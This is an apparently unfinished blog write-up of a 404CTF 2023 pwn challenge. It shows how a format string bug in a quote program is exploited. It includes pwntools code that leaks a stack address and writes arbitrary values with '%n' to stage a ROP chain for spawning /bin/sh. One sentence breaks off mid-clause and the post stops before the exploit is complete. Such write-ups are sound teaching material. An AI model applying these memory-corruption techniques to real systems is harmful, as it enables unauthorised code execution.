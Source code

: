 ```yaml
---
layout: post
title: 404CTF 2023 | Une citation pas comme les autres [1/2]
image: /assets/images/404ctf/une-citation-pas-comme-les-autres-1-2/cover.png
date: 2023-06-08 16:26:00
categories: [404ctf, pwn]
---
```


This challenge was part of the [404CTF 2023](https://www.404ctf.fr/), organized by the General Directorate for External Security (DGSE) and Télécom SudParis.

# Challenge Description

![Challenge Description]({{site.baseurl}}/assets/images/404ctf/une-citation-pas-comme-les-autres-1-2/description.png)

When I did the challenge, the comment about `/bin` not being mounted wasn't present on the description. You will discover in this writeup why it has been added. This method is probably more difficult than the intended method, but it is what it is ¯\\\_(ツ)\_/¯

![checksec output]({{site.baseurl}}/assets/images/404ctf/une-citation-pas-comme-les-autres-1-2/checksec.png)

# Reverse engineering

In the `main` function, we have the choice between 3 functions :
- `count_quotes` : Nothing interesting here
- `pick_quote` : This function picks a random quote in a file called `citations.txt` and prints it. Citations are delimited with '%'. This function is very useful and could have saved me hours but why choose the easiest way ? :)
- `write_quote` : We are asked some input, and this input is then printed. We can notice here a **Format String Vulnerability**, as we control the string passed to `printf`.

![Ghidra decompiled write_quote function]({{site.baseurl}}/assets/images/404ctf/la-feuille-blanche/write_quote.png)

# Exploitation

> A **Format String Vulnerability** happens when the user controls the parameter used to format a string. The most common example is in C, with the first argument of `printf`.
> 
> An attacker could inject format specifiers in order to read memory content. This happens because when calling a function, if there is a lot of arguments they will be passed through the stack. Take a look at [this video](https://youtu.be/0WvrSfcdq1I) from the great LiveOverflow for an introduction to this vulnerability.

With `printf`, a *Format String Vulnerability* can be used to leak content of the memory, using '%x' or '%p', but also to **write** data thanks to the '%n' format specifier and a bit of tweaking.

The first plan was to leak an address of the stack to compute the return address of `write_quote`, and then write a ROP chain to execute an **execve** syscall and execute /bin/sh.

> It would be cleaner to use the return address of the main function instead, but as it is exiting and never returning we cannot do it.
>  
> The ROP chain can be written with several calls to `write_quote`, but it should be written from bottom to top because as soon as the return address is overwritten, the ROP chain will be executed.

The leak is straightforward, as the first address was on the stack :

```py
#!/usr/bin/python3
from pwn import *

REMOTE = False
if REMOTE:
        p = remote('challenges.404ctf.fr', 31719)
else:
        p = process('./une_citation_pas_comme_les_autres_1_2')
        input('Waiting...') # Used to attach gdb to the process

p.recvuntil(b'>>> ')
p.send(b'2\n')
p.recvuntil(b'[Vous] : ')
p.send(b'%p\n')
p.recvuntil(b' : ')
addr = int(p.recvuntil(b'\n').rstrip(b'\n'), 16)

print(f"Leaked addr {hex(addr)}")
targetAddr = addr + 0x5a8
print(f"Target addr {hex(targetAddr)}")
```

Then I wanted to ensure that our write primitive is stable and simple to use, so I wanted to write a function to write some data at a given address. 

The '%n' format specifier writes the number of characters printed so far at the addess passed as argument. But if we put an address in our payload, it means that we will have some **null** character, and `printf` will stop at the first '\0' encountered.

> For this reason, a payload where the address is in the middle won't work !

We will then have to put our address at the end of the payload, 


```py
def write_rop(offset, val):
        p.recvuntil(b'>>> ')
        p.send(b'2\n')
        p.recvuntil(b'[Vous] : ')
        val = str(val-178) # 178 is the number of characters printed 
        payload = (b'%c '*12 + b'%.' + val.encode() + b'f%n').ljust(56, b'_')
        payload += p64(targetAddr+offset)
        print(f'Sending {payload}')
        p.send(payload + b'\n')
```

It took me a while to figure out how to do it, but I managed it with a bit of gadget gymnastic.

Another issue is that there was a timeout on the server side, and 
![ROPgadget output]({{site.baseurl}}/assets/images/404ctf/la-feuille-blanche/gadgets.png)

We start by generating all the gadgets in a file, as we will probably search through them a lot. The first idea (and surely the simplest) is to search for a `int 0x80` gadget, which could allow us to run some syscalls. Unfortunately, the binary desn't have such gadget. I wonder where we could find one ? 🤔

> A common technique to issue a system call when the binary doesn't contain `int 0x80` (or `syscall` for x86-64) is to **use the libc**. In our case libc addresses are randomized due to ASLR, so we will find a way to bypass this mitigation.
> This can be done either by leaking an address from the libc or by **using an address already present on the memory or registers**

<div class="row-container column-reverse">
	<div class="flex-2">
{% markdown %}

{% endmarkdown %}
	</div>
	<div>
{% markdown %}

{% endmarkdown %}
	</div>
</div>


